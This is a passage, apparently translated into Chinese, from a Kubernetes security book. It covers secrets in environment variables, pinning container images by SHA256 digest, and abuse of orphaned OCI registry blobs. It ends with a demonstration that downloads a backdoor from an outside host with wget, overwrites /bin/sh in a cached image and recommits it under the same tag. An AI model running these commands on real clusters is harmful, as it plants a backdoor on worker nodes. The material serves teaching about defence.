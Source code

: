 ```
      value: the_secret_password
    - name: DATABASE_NAME
      value: users
# This is a safer way to reference secrets and configuration
    - name: MY_SECRET_FILE
      value: /mnt/secrets/foo.toml
```

这并不算太糟糕，对吧？让我们继续讨论容器镜像。

## 容器镜像

容器镜像的文件系统非常重要，因为它可能存在有助于提升特权的漏洞。如果您不定期打补丁，Captain Hashjack 可能会从公共注册表获取相同的镜像以扫描可能可以利用的漏洞。知道哪些二进制文件和文件可用还能够在攻击计划“离线”时进行攻击，这样对手在攻击实时系统时可以更隐秘和有针对性。

###### 提示

OCI 注册表规范允许任意图像层存储：这是一个两步过程，第一步上传清单，第二步上传数据块。如果攻击者只执行第二步，他们可以免费获得任意数据块存储空间。

大多数注册表不会自动索引这一点（Harbour 是个例外），因此它们将永久存储“孤立”的数据块，可能隐藏在视图之外，直到手动进行垃圾回收。

这里我们看到一个通过标签引用的图像，这意味着我们无法确定容器镜像的实际 SHA256 哈希摘要。由于在部署后未使用摘要引用，容器标签可能已更新：

```
  image: gcr.io/google-samples/microservices-demo/frontend:v0.2.3
```

我们可以使用 SHA256 图像摘要而不是图像标签来拉取图像，以便按其内容地址引用：

```
  image: gcr.io/google-samples/microservices-demo/frontend@sha256:ca5d97b6cec...
```

图像应始终通过 SHA256 或使用已签名标签进行引用；否则，由于标签可能已在容器启动后在注册表中更新，因此无法知道正在运行什么。您可以通过检查运行中容器的图像 SHA256 来验证正在运行的内容。

在 Kubernetes 的`image:`键中可以同时指定标签和 SHA256 摘要，此时将忽略标签并通过摘要检索图像。这会导致包含标签和 SHA256 的潜在混乱的图像定义，如以下内容将按 SHA 而不是标签检索的图像：

```
controlplane/bizcard:latest\ ![1](img/1.png)
@sha256:649f3a84b95ee84c86d70d50f42c6d43ce98099c927f49542c1eb85093953875 ![2](img/2.png)
```

![1](img/#co_pod_level_resources_CO1-1)

容器名称，加上忽略的“latest”标签

![2](img/#co_pod_level_resources_CO1-2)

图像 SHA256，覆盖了前一行定义的“latest”标签

检索作为匹配 SHA 的图像而不是标签。

如果攻击者可以影响本地`kubelet`图像缓存，他们可以向图像添加恶意代码并在工作节点上重新标记它（注意：要再次运行此操作，请不要忘记删除`cidfile`）：

```
$ docker run -it --cidfile=cidfile --entrypoint /bin/busybox \
  gcr.io/google-samples/microservices-demo/frontend:v0.2.3 \
  wget https://securi.fyi/b4shd00r -O /bin/sh ![1](img/1.png)

$ docker commit $(<cidfile) \
  gcr.io/google-samples/microservices-demo/frontend:v0.2.3 ![2](img/2.png)
```
